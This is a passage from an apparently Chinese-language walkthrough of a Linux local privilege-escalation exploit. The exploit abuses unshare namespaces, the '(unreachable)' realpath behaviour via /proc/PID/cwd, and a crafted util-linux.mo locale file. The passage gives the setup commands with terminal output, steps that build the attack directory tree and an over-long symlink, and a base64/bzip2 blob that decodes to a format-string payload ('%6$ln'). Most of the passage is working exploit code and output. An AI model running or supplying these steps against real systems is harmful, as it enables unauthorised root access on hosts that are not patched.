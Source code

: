 ```
/usr/bin/unshare -m -U --map-root-user /bin/bash
mount -t tmpfs tmpfs /tmp
cd /tmp
chmod 00755 .

# Terminal 1
debian@debian:~/Desktop/work$ /usr/bin/unshare -m -U --map-root-user /bin/bash
root@debian:~/Desktop/work# mount -t tmpfs tmpfs /tmp
root@debian:~/Desktop/work# cd /tmp
root@debian:/tmp# chmod 00755 .
root@debian:/tmp# echo $$
52426
root@debian:/tmp# 

# 效果如下
# Terminal 2
$ cd /proc/52426/cwd
debian@debian:/proc/52426/cwd$ 
debian@debian:/proc/52426/cwd$ realpath .
(unreachable)/tmp
debian@debian:/proc/52426/cwd$ realpath ../x
(unreachable)/x
debian@debian:/proc/52426/cwd
```

Step3 – 创建漏洞利用需要的目录和文件

```
mkdir -p -- "(unreachable)/tmp" "(unreachable)/tmp/__gconv_find_shlib/C/LC_MESSAGES" "(unreachable)/x"
ln -s ../x/../../AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/A "(unreachable)/tmp/down"
base64 -d &lt;&lt;B64-EOF | bzip2 -cd &gt; "(unreachable)/tmp/__gconv_find_shlib/C/LC_MESSAGES/util-linux.mo"
QlpoOTFBWSZTWTOfm9IAAGX/pn6UlARGB+FeKyZnAD/n3mACAAAgAAEgAJSIqfkpspk0eUGJ6gAG
mQeoaD1PJAamlPJGCNMTIaNGmnqMQ0AAzSwpEWpQICVUw+490ohZBgZ+s4EBAZCn/TavSQshtCiv
iG6HOehyAp4FPt3zkpdTxNchTYITLBkXUjsgpN2QDBNX8qmbpkVgfLXKcQc1ZhVF0FxUQOtnbGlL
5NhRmORwmQF1Dw3Yu1mds6tGAmnLwWwc2KRKGl5hcLuSKcKEgZz83pA=
B64-EOF

root@debian:/tmp# tree
.
└── (unreachable)
    ├── tmp
    │   ├── down -&gt; ../x/../../AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/A
    │   └── __gconv_find_shlib
    │       └── C
    │           └── LC_MESSAGES
    │               └── util-linux.mo
    └── x


root@debian:/tmp# strings "(unreachable)/tmp/__gconv_find_shlib/C/LC_MESSAGES/util-linux.mo"
%s: not mounted
Language: en
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
AA%6$lnlnAAAAAAAAAA
```
